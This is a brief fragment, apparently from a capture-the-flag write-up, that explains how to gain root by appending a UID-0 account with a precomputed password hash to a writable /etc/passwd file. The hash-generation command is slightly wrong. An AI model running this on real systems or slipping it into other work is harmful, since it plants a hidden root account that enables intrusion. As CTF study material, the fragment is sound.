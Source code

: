 You can write the /etc/passwd file to add a user.

```bash
# Generate password hash
openssl password marbdawg
# Add a use of root group to /etc/passwd, with username ctfscoring and password marbdawg
echo 'ctfscoring:$1$0giYuYc1$DZRMYFpCPDVjuzAGo4z.s0:0:0:root:/root:/bin/sh' >> /etc/passwd
```